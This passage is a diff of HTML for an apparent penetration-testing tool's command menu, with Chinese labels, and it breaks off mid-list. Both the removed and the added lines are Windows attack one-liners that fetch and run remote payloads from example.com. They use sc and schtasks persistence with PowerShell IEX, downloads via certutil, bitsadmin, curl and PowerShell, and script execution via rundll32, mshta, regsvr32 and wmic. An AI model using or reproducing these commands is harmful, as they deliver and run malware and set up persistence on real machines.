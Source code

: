 ```diff
-                                     <li role="option" data-command="sc create malservice binPath= \"cmd.exe /c powershell -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')\" start= auto">创建恶意服务 (sc)</li>
-                                     <li role="option" data-command="schtasks /create /tn \"MyTask\" /tr \"cmd.exe /c powershell -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')\" /sc once /st 23:59">创建计划任务 (schtasks)</li>
-                                 </menu>
+                             <div class="command-list">
+                                 <h3>常用渗透命令</h3>
+                                 <div class="command-grid">
+                                     <div class="command-item" data-command="certutil -urlcache -split -f http://example.com/payload.exe C:\Windows\Temp\payload.exe">
+                                         <div class="command-title">远程下载文件 (certutil)</div>
+                                         <div class="command-code">certutil -urlcache -split -f http://example.com/payload.exe C:\Windows\Temp\payload.exe</div>
+                                     </div>
+                                     <div class="command-item" data-command="powershell -c &quot;(New-Object System.Net.WebClient).DownloadFile('http://example.com/payload.exe', 'C:\Windows\Temp\payload.exe')&quot;">
+                                         <div class="command-title">远程下载文件 (PowerShell)</div>
+                                         <div class="command-code">powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://example.com/payload.exe', 'C:\Windows\Temp\payload.exe')"</div>
+                                     </div>
+                                     <div class="command-item" data-command="bitsadmin /transfer myJob /download /priority high http://example.com/payload.exe C:\Windows\Temp\payload.exe">
+                                         <div class="command-title">远程下载文件 (bitsadmin)</div>
+                                         <div class="command-code">bitsadmin /transfer myJob /download /priority high http://example.com/payload.exe C:\Windows\Temp\payload.exe</div>
+                                     </div>
+                                     <div class="command-item" data-command="curl -o C:\Windows\Temp\payload.exe http://example.com/payload.exe">
+                                         <div class="command-title">远程下载文件 (curl)</div>
+                                         <div class="command-code">curl -o C:\Windows\Temp\payload.exe http://example.com/payload.exe</div>
+                                     </div>
+                                     <div class="command-item" data-command="rundll32.exe javascript:&quot;\..\mshtml,RunHTMLApplication &quot;;document.write();new%20ActiveXObject(&quot;WScript.Shell&quot;).Run(&quot;powershell -nop -exec bypass -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')&quot;);">
+                                         <div class="command-title">执行远程PowerShell (rundll32)</div>
+                                         <div class="command-code">rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')");</div>
+                                     </div>
+                                     <div class="command-item" data-command="mshta vbscript:Close(Execute(&quot;GetObject(\&quot;script:http://example.com/payload.sct\&quot;)&quot;))">
+                                         <div class="command-title">执行远程脚本 (mshta)</div>
+                                         <div class="command-code">mshta vbscript:Close(Execute("GetObject(\"script:http://example.com/payload.sct\")"));</div>
+                                     </div>
+                                     <div class="command-item" data-command="regsvr32 /s /u /i:http://example.com/payload.sct scrobj.dll">
+                                         <div class="command-title">执行远程脚本 (regsvr32)</div>
+                                         <div class="command-code">regsvr32 /s /u /i:http://example.com/payload.sct scrobj.dll</div>
+                                     </div>
+                                     <div class="command-item" data-command="wmic process call create &quot;powershell -c IEX(New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')&quot;">
+                                         <div class="command-title">执行远程PowerShell (wmic)</div>
```